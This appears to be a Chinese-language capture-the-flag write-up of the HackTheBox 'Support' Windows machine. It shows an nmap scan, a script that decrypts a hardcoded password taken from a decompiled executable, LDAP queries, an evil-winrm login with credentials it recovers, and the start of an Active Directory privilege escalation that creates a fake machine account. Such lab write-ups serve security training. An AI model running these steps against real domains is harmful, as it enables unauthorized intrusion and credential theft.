 ```yaml
---
title: HackTheBox-Support-Windows
date: 2025-4-16 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```




# 信息收集

## nmap

```txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-16 09:41 CST
Nmap scan report for 10.10.11.174
Host is up (1.2s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-16T01:43:02
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.67 seconds
```

## SMB

SMB共享目录中UserInfo.exe，下载到本地反编译

![image-20250416105858408](./Support-Windows/image-20250416105858408.png)

![image-20250416141440935](./Support-Windows/image-20250416141440935.png)

```python
#解密脚本

import base64

string = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
byte = b'armando'
string2 = base64.b64decode(string)
array = bytearray()
for i in range (0,len(string2)):
    array.append(string2[i]^byte[i % len(byte)]^0xDF)

print(array)
```

```
输出结果：nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

从反编译的代码中得知还开启了LDAP，可以使用该密码检索相关信息

```
ldapsearch -H  ldap://support.htb  -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
```

![image-20250416143848609](./Support-Windows/image-20250416143848609.png)

也可以使用`apache directory studio`连接LDAP,info字段应该是密码

![image-20250416145846936](./Support-Windows/image-20250416145846936.png)

```
info:Ironside47pleasure40Watchful
```

开放了5985端口

使用evil-winrm连接windows远程桌面可以得到user.txt

```
evil-winrm -i 10.10.11.174 -u support -p "Ironside47pleasure40Watchful"
```

## 提权

```
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

```
Get-ADComputer -identity FAKE-COMP01
```

![image-20250421150935612](./Support-Windows/image-20250421150935612.png)